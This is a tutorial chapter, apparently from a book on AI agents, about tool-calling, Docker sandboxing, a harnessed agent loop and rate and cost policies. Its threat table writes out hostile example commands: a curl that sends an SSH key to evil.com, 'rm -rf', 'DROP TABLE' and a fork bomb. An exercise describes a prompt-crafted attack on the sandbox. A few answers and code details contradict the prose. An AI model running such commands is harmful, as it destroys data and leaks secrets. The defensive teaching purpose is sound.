



# 5.1 Leashing the Beast: Tool-Calling and Sandboxed Execution

> **How to read this section:** This is the opening of Part III. Parts I and II built the vocabulary — agent loops, failure modes, reliability harnesses, context engines, and the Loom threading model. This section adds the two missing capabilities that turn a text generator into a *working* agent: tool-calling (structured interaction with the outside world) and sandboxed execution (safe code running). Read the five concept loops in order. By loop 3 you will have a running sandbox; by loop 5 you will have a production-hardened harness. If you already use function-calling APIs, skim loop 2 and start at loop 3.

## Why this section matters

A language model that cannot *do* anything is a very expensive autocomplete. It can draft code, but it cannot run that code, read the file it just broke, or verify its fix compiles. The gap between generation and execution is the central bottleneck in agentic systems.

Section 2.3 built the reliability harness — budget gates, circuit breakers, checkpoints. Section 4.2 separated orchestration from execution inside the Loom framework. But both assumed something we never made explicit: **the model can call tools.** That assumption is the load-bearing wall. Remove it and the harness has nothing to execute, the orchestrator has nothing to delegate to, and the agent is a chatbot.

This section builds the wall. Tool-calling gives the model structured access to the outside world. Sandboxed execution ensures that access cannot destroy the host. Together they complete the harness pattern from Section 2.3 and provide the execution substrate that Section 4.2's orchestrator depends on.

## Deliverable

By the end of this section, the reader can:

- explain why raw model output is inert without a tool-calling protocol,
- define a tool schema in JSON Schema and wire it into a model→harness→tool loop,
- run untrusted LLM-generated code inside a sandboxed container with resource limits,
- assemble the full harness pattern (tool-calling + sandbox + verification), and
- apply production hardening controls: rate limits, cost caps, timeouts, and capability-based permissions.

---

## Concept loop 1: Why raw models are useless without leashes

### Concept

A foundation model accepts text and returns text. That is the entire contract. It cannot open a file. It cannot run a test. It cannot hit an API. Every "action" you have seen a coding agent perform — editing code, executing shell commands, searching a codebase — happened because *harness code outside the model* intercepted a structured request, executed it, and fed the result back.

The model's job is to *decide* what to do. The harness's job is to *do* it. Without the harness, the model is a brain in a jar.



Three consequences follow:

1. **No grounding.** The model cannot verify its own output. It generates a function but cannot check if it parses, passes tests, or even runs.
2. **No state mutation.** The model cannot write to disk, call an API, or change the world. Every "write file" is a suggestion until the harness acts.
3. **No feedback.** Without execution results, the model cannot self-correct. It hallucinates confidently because nothing pushes back.

> **Key idea:** The model is a policy function: given state, it proposes an action. The harness is the environment: it executes the action and returns the next state. This is the agent loop — and it is impossible without tool-calling.

### Worked example

Imagine asking a raw model to fix a broken import in `app.py`. Without tools, the conversation looks like this:

| Turn | Role   | Content |
|------|--------|---------|
| 1    | User   | "Fix the broken import in app.py" |
| 2    | Model  | "Change line 3 from `import flas` to `import flask`" |
| 3    | User   | (must manually apply the edit, run the app, and paste results back) |

The model *suggested* a fix but could not apply it, test it, or confirm it worked. Every round trip requires a human in the loop. This is the pre-tool-calling world — and it is why early Copilot completions felt like autocomplete, not agency.

### Example 5-1. The inert model vs. the tool-equipped agent

```python
# Without tools: the model can only suggest
def inert_agent(prompt: str, model_fn) -> str:
    """Returns text. Cannot act on the world."""
    return model_fn(prompt)  # "Change line 3 to ..."

# With tools: the harness executes the model's decisions
def tool_agent(prompt: str, model_fn, tools: dict):
    """Model proposes actions; harness executes them."""
    response = model_fn(prompt, tools=list(tools.keys()))

    if response.tool_call:
        name = response.tool_call.name        # "file_write"
        args = response.tool_call.arguments    # {"path": "app.py", "content": "..."}
        result = tools[name](**args)           # harness executes
        # Feed result back for next iteration
        return model_fn(prompt + str(result), tools=list(tools.keys()))

    return response.text
```

The difference is three lines of code — and the entire gap between a chatbot and an agent.

### Check yourself

1. What are the three capabilities a raw model lacks that tool-calling provides?
2. Why can't the model self-correct without execution feedback?
3. In the code above, what happens if `tools[name]` raises an exception?

---

## Concept loop 2: Tool-calling fundamentals

### Concept

Tool-calling (also called function-calling) is a protocol. The model does not literally call a function — it emits a structured JSON object that *names* a function and provides *arguments*. The harness deserializes that object, calls the real function, and returns the result as the next message.

The protocol has three parts:

1. **Tool definitions** — JSON Schema objects describing available tools (name, description, parameter types).
2. **Tool-call response** — the model's output when it decides to use a tool instead of generating text.
3. **Tool result message** — the harness's response, fed back into the conversation.



> **Tip:** Tool definitions are the agent's API contract. Vague descriptions produce vague tool calls. Write descriptions as if a junior engineer will read them to decide which tool to use — because that is exactly what the model does.

### Worked example

A minimal tool set for a coding agent needs three tools: read a file, write a file, run a shell command. Here are their schemas.

### Example 5-2. Tool schemas for a minimal coding agent

```python
TOOL_SCHEMAS = [
    {"type": "function", "function": {
        "name": "file_read",
        "description": "Read file contents at the given path.",
        "parameters": {"type": "object",
            "properties": {"path": {"type": "string", "description": "File path"}},
            "required": ["path"]}}},
    {"type": "function", "function": {
        "name": "file_write",
        "description": "Write content to a file (create or overwrite).",
        "parameters": {"type": "object",
            "properties": {
                "path": {"type": "string", "description": "File path"},
                "content": {"type": "string", "description": "Content to write"}},
            "required": ["path", "content"]}}},
    {"type": "function", "function": {
        "name": "shell_exec",
        "description": "Run a shell command; return stdout and stderr.",
        "parameters": {"type": "object",
            "properties": {
                "command": {"type": "string", "description": "Shell command"},
                "timeout_s": {"type": "integer", "description": "Max seconds", "default": 30}},
            "required": ["command"]}}},
]
```

> **Warning:** The `shell_exec` tool below runs commands on the **host machine** with no isolation. We will fix this in loop 3. Never ship this to production.

```python
import subprocess

TOOL_DISPATCH = {
    "file_read":  lambda path: open(path).read(),
    "file_write": lambda path, content: (
        open(path, "w").write(content), f"Wrote {len(content)} bytes")[1],
    "shell_exec": lambda command, timeout_s=30: subprocess.run(
        command, shell=True, capture_output=True, text=True,
        timeout=timeout_s).stdout,
}

def execute_tool_call(tool_call):
    return TOOL_DISPATCH[tool_call["name"]](**tool_call["arguments"])
```

### Check yourself

1. What are the three parts of the tool-calling protocol?
2. Why does `shell_exec` need a `timeout_s` parameter?
3. What happens if the model invents a tool name that is not in `TOOL_DISPATCH`?

---

## Concept loop 3: Sandboxed execution

### Concept

The `shell_exec` tool from loop 2 is a loaded gun. The model can emit `rm -rf /`, install malware, or exfiltrate secrets through a curl command. LLM-generated code is *untrusted by definition* — the model is a stochastic process, not a vetted developer.

The threat model has three axes:

| Threat | Example | Impact |
|--------|---------|--------|
| **Destructive commands** | `rm -rf /home`, `DROP TABLE users` | Data loss, system damage |
| **Exfiltration** | `curl -X POST https://evil.com -d @~/.ssh/id_rsa` | Secret leakage |
| **Resource exhaustion** | `:(){ :\|:& };:` (fork bomb), infinite loop | Host denial of service |

Sandboxes solve all three by running untrusted code in an isolated environment with controlled resources and no network access (or restricted network access).

**Common sandbox approaches:**

| Approach | Isolation level | Startup time | Use case |
|----------|----------------|--------------|----------|
| Docker containers | Process + filesystem | ~1s | Most agent frameworks |
| Firecracker microVMs (E2B) | Full VM | ~150ms | Multi-tenant cloud |
| Piston | Container + seccomp | ~200ms | Polyglot code execution |
| gVisor / Kata | Kernel-level | ~500ms | Defense in depth |

> **Key idea:** A sandbox is not a feature — it is a *requirement*. Any agent that runs LLM-generated code without isolation is one hallucination away from a production outage.

### Worked example

E2B (short for "environment to browser") provides cloud sandboxes purpose-built for AI agents. Each sandbox is a Firecracker microVM with its own filesystem, network namespace, and resource limits.

### Example 5-3. Sandboxed code execution with Docker

```python
import subprocess, tempfile, os

class DockerSandbox:
    """Minimal sandbox using Docker for LLM-generated code."""
    IMAGE = "python:3.12-slim"
    DEFAULTS = {"timeout_s": 30, "mem_limit": "256m",
                "cpu_quota": 50000, "network": False}

    def run(self, code: str, **overrides) -> dict:
        cfg = {**self.DEFAULTS, **overrides}
        with tempfile.NamedTemporaryFile(mode="w", suffix=".py", delete=False) as f:
            f.write(code)
            host_path = f.name

        net = "--network=none" if not cfg["network"] else ""
        cmd = (f"docker run --rm --memory={cfg['mem_limit']} "
               f"--cpu-quota={cfg['cpu_quota']} {net} --read-only "
               f"-v {host_path}:/sandbox/script.py:ro "
               f"{self.IMAGE} python /sandbox/script.py")
        try:
            r = subprocess.run(cmd, shell=True, capture_output=True,
                               text=True, timeout=cfg["timeout_s"])
            return {"stdout": r.stdout, "stderr": r.stderr, "exit_code": r.returncode}
        except subprocess.TimeoutExpired:
            return {"stdout": "", "stderr": "TIMEOUT", "exit_code": -1}
        finally:
            os.unlink(host_path)

# Usage
sandbox = DockerSandbox()
result = sandbox.run("print('Hello from the sandbox!')")
# => {"stdout": "Hello from the sandbox!\n", "stderr": "", "exit_code": 0}
```

Key design decisions:

- **`--network=none`** blocks exfiltration. The code cannot phone home.
- **`--read-only`** prevents writes to the container filesystem (the script is mounted read-only).
- **`--memory` and `--cpu-quota`** cap resource consumption. Fork bombs die fast.
- **`timeout`** on the Python side kills the container if Docker's own limits fail.

> **Pitfall:** Docker is not a security boundary by default. A privileged container can escape to the host. Always run with `--no-new-privileges`, drop all capabilities, and use a non-root user in production. For multi-tenant workloads, prefer microVM isolation (E2B, Firecracker).

### Check yourself

1. Name the three threat axes that sandboxes address.
2. Why is `--network=none` critical for untrusted code?
3. What is the difference between Docker container isolation and Firecracker microVM isolation?

---

## Concept loop 4: The harness pattern — assembling the full loop

### Concept

Loops 1–3 gave us the parts: tool-calling (the protocol), tool schemas (the contract), and sandboxed execution (the safety net). Now we assemble them into the **full harness pattern** — the architecture that every production agent framework uses, whether it admits it or not.

This pattern extends the reliability harness from Section 2.3 (budget gates, circuit breakers, checkpoints) with two new layers:

- **Tool dispatch** — routes model tool calls to the correct executor.
- **Sandbox runtime** — runs untrusted code in isolation.

And it connects to Section 4.2's orchestration/execution split: the *orchestrator* decides which tools to call; the *harness* executes those calls safely.



The loop runs until the orchestrator declares the task complete, the budget is exhausted, or the circuit breaker trips. Every iteration leaves a checkpoint so the loop can resume after crashes (Section 2.3, concept loop 5).

> **Key idea:** The harness pattern is not a framework — it is a *design pattern*. You can implement it in 100 lines of Python or adopt it from LangChain, CrewAI, or Claude Code's internal loop. The architecture is the same; only the plumbing differs.

### Worked example

We now wire the tool schemas from Example 5-2, the sandbox from Example 5-3, and the harnessed loop skeleton from Section 2.3 into a single working agent.

### Example 5-4. Complete harnessed agent loop with tool-calling and sandbox

```python
import time

class HarnessedAgent:
    """Full harness: budget + circuit breaker + tool dispatch + sandbox."""

    def __init__(self, model_fn, tools, sandbox, max_tokens=50_000, max_time_s=300):
        self.model_fn = model_fn
        self.tools = tools          # dict of {name: callable}
        self.sandbox = sandbox      # DockerSandbox instance
        self.max_tokens = max_tokens
        self.max_time_s = max_time_s

    def run(self, goal: str) -> dict:
        tokens_used, start = 0, time.time()
        messages = [{"role": "user", "content": goal}]
        recent_actions = []

        for step in range(100):  # hard cap
            # --- Budget gate ---
            if tokens_used >= self.max_tokens:
                return self._halt("budget_exhausted", step, tokens_used)
            if time.time() - start >= self.max_time_s:
                return self._halt("timeout", step, tokens_used)

            # --- Model call ---
            response = self.model_fn(messages, tools=TOOL_SCHEMAS)
            tokens_used += response.usage.total_tokens

            # --- Text response = done ---
            if not response.tool_call:
                return {"status": "complete", "steps": step,
                        "tokens": tokens_used, "answer": response.text}

            # --- Circuit breaker: detect stagnation ---
            action_sig = f"{response.tool_call.name}:{response.tool_call.arguments}"
            recent_actions.append(action_sig)
            if len(recent_actions) > 3:
                recent_actions.pop(0)
            if len(recent_actions) == 3 and len(set(recent_actions)) == 1:
                return self._halt("stagnation", step, tokens_used)

            # --- Tool dispatch ---
            result = self._execute_tool(response.tool_call)

            # --- Feed result back ---
            messages.append({"role": "assistant", "tool_call": response.tool_call})
            messages.append({"role": "tool", "content": str(result)})

        return self._halt("max_steps", 100, tokens_used)

    def _execute_tool(self, tool_call):
        name, args = tool_call.name, tool_call.arguments
        if name == "shell_exec":
            return self.sandbox.run(args.get("command", ""))
        if name in self.tools:
            return self.tools[name](**args)
        return {"error": f"Unknown tool: {name}"}

    def _halt(self, reason, step, tokens):
        return {"status": reason, "steps": step, "tokens": tokens}
```

Notice the architecture:

- **Budget gate** from Section 2.3 runs first — no work happens if the budget is gone.
- **Circuit breaker** detects stagnation (Section 2.2, failure mode #2) by comparing recent actions.
- **Tool dispatch** routes `shell_exec` to the sandbox and everything else to direct execution.
- **Message threading** accumulates the full conversation so the model has context.

### Check yourself

1. Which two sections' patterns does this loop combine?
2. Why does `shell_exec` route to the sandbox but `file_read` does not?
3. What would you change to support *parallel* tool calls?

---

## Concept loop 5: Production hardening

### Concept

The loop from Example 5-4 works in a demo. In production, it will be poked by adversarial inputs, called thousands of times per hour, and expected to handle partial failures gracefully. Five hardening controls close the gap:

| Control | What it prevents | Implementation |
|---------|-----------------|----------------|
| **Rate limits** | Token burn from tight loops | Token bucket per user/session |
| **Cost caps** | Runaway spending on model APIs | Hard dollar ceiling per task |
| **Timeouts** | Hung sandboxes, slow models | Layered: per-tool, per-step, per-task |
| **Capability permissions** | Privilege escalation | Allowlist of tools per agent role |
| **Audit logging** | Undetected misuse | Append-only structured log |

> **Warning:** Cost caps are not optional. A single agent with access to GPT-4 and no cost cap can burn $500 in under ten minutes on a recursive decomposition task. Ask us how we know. (See Section 2.2's retry storm failure mode — tight loops with no budget gate are the leading cause of runaway spend.)

**Capability-based permissions** deserve special attention. Not every agent needs every tool. A *read-only reviewer* agent should not have `file_write` or `shell_exec`. A *code runner* agent should not have `git_push`. The principle of least privilege applies to agents exactly as it applies to Unix processes — and for the same reasons.

### Worked example

We add a policy layer that enforces rate limits, cost caps, and capability permissions on top of the harness from Example 5-4.

### Example 5-5. Production policy layer

```python
import time
from dataclasses import dataclass, field

@dataclass
class AgentPolicy:
    """What an agent can do and how much it can spend."""
    allowed_tools: set = field(default_factory=lambda: {"file_read"})
    max_cost_usd: float = 1.00
    max_tokens_per_minute: int = 10_000
    max_tool_calls_per_minute: int = 30
    tool_timeout_s: dict = field(default_factory=lambda: {
        "file_read": 5, "file_write": 5, "shell_exec": 30})

# Predefined roles
REVIEWER = AgentPolicy(allowed_tools={"file_read", "shell_exec"}, max_cost_usd=0.50)
EDITOR = AgentPolicy(
    allowed_tools={"file_read", "file_write", "shell_exec"},
    max_cost_usd=2.00, max_tool_calls_per_minute=60)

class PolicyEnforcer:
    """Wraps tool dispatch with production safety controls."""

    def __init__(self, policy: AgentPolicy):
        self.policy = policy
        self.cost_usd = 0.0
        self.token_window = []   # (timestamp, count)
        self.call_window = []    # timestamps

    def check_tool_allowed(self, tool_name: str):
        if tool_name not in self.policy.allowed_tools:
            raise PermissionError(f"Tool '{tool_name}' not allowed")

    def check_rate_limit(self, tokens: int):
        now, cutoff = time.time(), time.time() - 60
        self.token_window = [(t, n) for t, n in self.token_window if t > cutoff]
        self.call_window = [t for t in self.call_window if t > cutoff]
        if sum(n for _, n in self.token_window) + tokens > self.policy.max_tokens_per_minute:
            raise RuntimeError("Token rate limit exceeded")
        if len(self.call_window) + 1 > self.policy.max_tool_calls_per_minute:
            raise RuntimeError("Tool call rate limit exceeded")
        self.token_window.append((now, tokens))
        self.call_window.append(now)

    def check_cost(self, tokens: int, cost_per_1k: float = 0.003):
        projected = self.cost_usd + (tokens / 1000) * cost_per_1k
        if projected > self.policy.max_cost_usd:
            raise RuntimeError(f"Cost cap: ${projected:.4f} > ${self.policy.max_cost_usd}")
        self.cost_usd = projected

    def get_timeout(self, tool_name: str) -> int:
        return self.policy.tool_timeout_s.get(tool_name, 10)
```

Integrating this into the harness requires two changes to `HarnessedAgent._execute_tool`:

```python
def _execute_tool(self, tool_call, enforcer: PolicyEnforcer):
    name = tool_call.name
    enforcer.check_tool_allowed(name)
    timeout = enforcer.get_timeout(name)

    if name == "shell_exec":
        return self.sandbox.run(
            tool_call.arguments.get("command", ""),
            timeout_s=timeout
        )
    return self.tools[name](**tool_call.arguments)
```

> **Tip:** In production, wrap each enforcer check in a try/except and return a structured error to the model. Models handle "Permission denied: tool 'git_push' not allowed for this role" better than a crashed process.

### Check yourself

1. Why does the `REVIEWER` policy exclude `file_write`?
2. What is the risk if you set `max_cost_usd` too high?
3. How would you implement per-tool rate limits instead of per-agent rate limits?

---

## What we built

| Component | Section | Purpose |
|-----------|---------|---------|
| Inert vs. tool-equipped agent | Loop 1 | Understand the generation-execution gap |
| Tool schemas + dispatch router | Loop 2 | Structured model↔tool communication |
| Docker sandbox with resource limits | Loop 3 | Isolated execution of untrusted code |
| Full harness loop | Loop 4 | Budget + circuit breaker + tools + sandbox |
| Policy enforcer with RBAC | Loop 5 | Rate limits, cost caps, capability permissions |

This stack extends Section 2.3's reliability harness with the execution machinery that was previously assumed. It also provides the execution substrate for Section 4.2's orchestrator — the Loom framework delegates to tools; this section shows how those tools run safely.

## Verification checklist

- [ ] I can explain why a raw model cannot self-correct without tool-calling
- [ ] I can write a JSON Schema tool definition with required parameters
- [ ] I can trace the three-step tool-calling protocol (definition → call → result)
- [ ] I can configure a Docker sandbox with network, memory, and CPU limits
- [ ] I can identify the three sandbox threat axes (destructive, exfiltration, exhaustion)
- [ ] I can assemble a harnessed loop that combines budget gates, circuit breakers, and tool dispatch
- [ ] I can define role-based policies that restrict tool access per agent
- [ ] I can explain why cost caps and rate limits are required in production

---

## Wrapping up

This section built the execution layer that turns a language model from a text generator into an agent. Tool-calling provides structured access to the outside world. Sandboxes ensure that access is safe. The harness pattern — budget gates from Section 2.3, orchestration from Section 4.2, tool dispatch, and sandboxed execution — is the architecture that every production agent uses.

The next section will examine how hyperscaler platforms (AWS Bedrock, Azure AI, GCP Vertex) package this pattern as managed services, shifting the build-vs-buy decision for teams that need agents at scale.

## Retrieval practice

### Exercise 1 — Trace the protocol

Draw the sequence of messages (user, assistant, tool) for an agent that: (a) reads `config.yaml`, (b) changes the port from 8080 to 9090, (c) writes the file back, and (d) runs `python -m pytest` to verify. How many tool calls are involved?

<details><summary>Answer</summary>

Four tool calls minimum:

1. `file_read(path="config.yaml")` → returns file content
2. Model edits content in its response
3. `file_write(path="config.yaml", content=<updated>)` → returns "OK"
4. `shell_exec(command="python -m pytest")` → returns test output

The model may add a fifth `file_read` to verify the write. Total messages: 1 user + ~8 assistant/tool pairs + 1 final assistant = ~10 messages.

</details>

### Exercise 2 — Sandbox escape analysis

Your sandbox uses `docker run --rm --network=none`. An attacker crafts a prompt that makes the model generate code which writes a file to `/tmp/exfil.txt` and then the *next* tool call uses `file_read("/tmp/exfil.txt")` to read it from the host. Does the sandbox prevent this? Why or why not?

<details><summary>Answer</summary>

**No, the sandbox does not prevent this.** The Docker container's `/tmp` is isolated from the host `/tmp`, so the file written *inside* the container disappears when the container exits (`--rm`). However, if the harness's `file_read` tool runs on the *host* (not in the sandbox), the attacker could read host files via `file_read`. The fix: route sensitive read operations through the sandbox too, or use an allowlist of readable paths. This is why capability-based permissions (loop 5) matter — `file_read` should be scoped to the project directory.

</details>

### Exercise 3 — Cost cap calculation

An agent uses GPT-4 Turbo at $0.01 per 1K input tokens and $0.03 per 1K output tokens. Each harness iteration uses ~2K input tokens and ~500 output tokens. The task requires an estimated 15 iterations. What cost cap should you set, and what margin would you add?

<details><summary>Answer</summary>

Per iteration: (2000/1000 × $0.01) + (500/1000 × $0.03) = $0.02 + $0.015 = $0.035. For 15 iterations: 15 × $0.035 = $0.525. Add a 50% margin for retries and unexpected loops: $0.525 × 1.5 = **$0.79, round up to $0.80**. Setting the cap at $1.00 gives comfortable headroom while preventing the $10+ bills that runaway loops produce.

</details>

### Exercise 4 — Design a policy

Define an `AgentPolicy` for a **CI bot** that can read any file, run tests, and post comments, but must never write source files or push to git. What `allowed_tools` set would you use? What `max_cost_usd` is reasonable for a CI run?

<details><summary>Answer</summary>

```python
CI_BOT = AgentPolicy(
    allowed_tools={"file_read", "shell_exec", "post_comment"},
    max_cost_usd=0.50,       # CI runs should be cheap
    max_tokens_per_minute=20_000,  # higher for test output parsing
    max_tool_calls_per_minute=60,
    tool_timeout_s={
        "file_read": 5,
        "shell_exec": 120,   # tests can take time
        "post_comment": 10,
    },
)
```

Key exclusions: `file_write` (no source modification), `git_push` (no repo mutation). The `shell_exec` timeout is higher because test suites can be slow. Cost cap of $0.50 is generous for a single CI run — if it needs more, the task should be split.

</details>
